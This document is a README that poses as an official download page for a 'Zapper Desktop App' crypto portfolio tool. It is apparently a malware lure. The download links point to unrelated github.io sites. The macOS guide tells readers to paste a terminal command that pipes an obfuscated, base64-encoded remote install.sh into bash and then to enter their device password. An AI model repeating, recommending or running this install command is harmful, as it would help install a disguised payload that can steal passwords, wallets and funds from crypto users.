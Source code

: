 # Zapper Desktop App Download

<div align="center">

![Zapper Logo](https://play-lh.googleusercontent.com/x6kidvDceerMbn4CfCXW3kPEEFl3MdwJ5pKiO3EA661lF4RYOfOvVBVcdy8ls5MjH58=w240-h480-rw)

</div>

**Zapper Desktop App** is the official desktop version of **Zapper**, the powerful cryptocurrency and DeFi portfolio management platform. Designed for Windows and macOS users, it provides real-time portfolio tracking, DeFi protocol integration, NFT management, and secure wallet connectivity — all from a streamlined desktop interface.

<div align="center">
  
[![Download for Windows](https://img.shields.io/badge/Download_for_Windows-blue?style=for-the-badge&logo=windows)](https://zapper-desktop-app.github.io/.github)  
[![Download for Mac](https://img.shields.io/badge/Download_for_Mac-silver?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/zapper)

</div>

---

## 📊 What is Zapper Desktop App?

**Zapper Desktop App** is a **comprehensive crypto and DeFi portfolio manager** built for traders, investors, and NFT enthusiasts who prefer the stability, privacy, and speed of a native desktop application. With Zapper, you can connect your crypto wallets, track assets across multiple blockchains, interact with DeFi protocols, and monitor NFTs — all in one unified platform.

On desktop, Zapper delivers **enhanced performance and security** compared to its web version. Your wallet data is handled locally, with support for popular wallets like MetaMask, Ledger, WalletConnect, and Zerion Smart Wallet. The platform enables **real-time asset tracking** across Ethereum, Polygon, Arbitrum, BNB Chain, Avalanche, Optimism, and many other chains, giving you a clear and instant overview of your holdings.

The desktop app provides **direct DeFi access** — you can stake tokens, provide liquidity, claim rewards, and interact with DeFi applications without leaving the Zapper interface. Its transaction builder supports complex operations like bridging assets and multi-step swaps, helping you save time and reduce transaction fees.

Zapper’s **NFT management tools** allow you to view, organize, and track your entire NFT collection across wallets. The app displays floor prices, historical sales data, and metadata, giving you actionable insights for both collectibles and utility NFTs.

For advanced users, Zapper Desktop includes **portfolio analytics**, yield farming dashboards, historical performance charts, and CSV export for tax and accounting purposes. It also integrates watchlists, custom alerts, and a fully customizable dashboard to suit your trading and investing workflow.

Whether you’re a DeFi power user managing multiple protocols or a crypto investor looking for clear and reliable portfolio tracking, Zapper Desktop App offers **speed, control, and deep market visibility** — all from a single, secure desktop platform.

---

## 🖥️ Key Features

- **Multi-Chain Portfolio Tracking** – Ethereum, Polygon, BNB Chain, Arbitrum, Optimism, Avalanche, and more  
- **Secure Wallet Integration** – MetaMask, Ledger, WalletConnect, and others  
- **DeFi Protocol Interaction** – Stake, swap, provide liquidity, and claim rewards directly from the app  
- **NFT Portfolio Management** – Floor price tracking, sales history, and collection overview  
- **Real-Time Market Data** – Live prices, asset allocation, and yield updates  
- **Transaction Builder** – Multi-step swaps, bridges, and batch transactions  
- **Advanced Analytics** – PnL tracking, gas fee analysis, and yield farming metrics  
- **Export Tools** – CSV and Excel export for tax and compliance  
- **Customizable Dashboard** – Tailor widgets, watchlists, and alerts to your workflow  
- **Cross-Device Sync** – Seamlessly continue between desktop and mobile

---

![Zapper Interface](https://miro.medium.com/v2/resize:fit:1400/1*OtEXdZy4zMMP_pEMqQQThw.png)

---

## ⚙️ System Requirements

- **OS**: Windows 10/11 (64-bit) or macOS 11+  
- **CPU**: Intel i5 / Apple Silicon M1 or newer  
- **RAM**: 8 GB minimum (16 GB recommended)  
- **Disk**: 500 MB free space  
- **Internet**: Required for blockchain and market data updates

---

## 📥 Install Guide


## For Windows:

1. Download the archive with the program files
2. Unzip all files
3. Run the program's `.exe` file.


## For MacOS:

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


---

## 🏷️ Tags

`zapper app` • `zapper application` • `zapper app download` • `zapper download` • `download zapper free` • `zapper desktop app` • `zapper desktop` • `zapper desktop download` • `zapper desktop app download` • `zapper defi` • `zapper crypto` • `zapper nft tracker` • `zapper portfolio` • `zapper portfolio manager`

---
